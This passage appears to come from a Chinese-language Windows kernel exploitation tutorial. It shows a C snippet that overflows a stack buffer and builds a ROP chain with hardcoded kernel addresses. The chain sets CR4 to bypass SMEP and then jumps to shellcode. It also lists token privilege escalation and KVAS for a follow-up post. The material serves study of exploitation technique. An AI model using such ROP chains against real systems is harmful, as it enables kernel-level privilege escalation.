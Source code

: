 ```bash
unsigned int size = 0x840;
    RtlFillMemory(stackspace, 0x810, 'A');
    *(unsigned long long*)(stackspace + 0x818) = (unsigned long long)0xfffff807743f52c0;
    *(unsigned long long*)(stackspace + 0x820) = (unsigned long long)0x00000000002506f8;    //set RCX = currentRC4
    *(unsigned long long*)(stackspace + 0x828) = (unsigned long long)0xfffff807749a41cf;
    *(unsigned long long*)(stackspace + 0x830) = (unsigned long long)shellcode_addr;
    printf("[*] Start set ROP\n");
```

没有下断点直接过

[![](assets/1706090591-2616c18af09988e676759f56b52ae285.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122131429-1e64b778-b8e5-1.png)

[![](assets/1706090591-41583bf66e8dd69051654a4cbd1019d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122131439-2487b2cc-b8e5-1.png)

# 遗留

下一篇

-   user 编程寻找 ROPGadget
-   shellcode 编写
-   Token 提权
-   KVAS
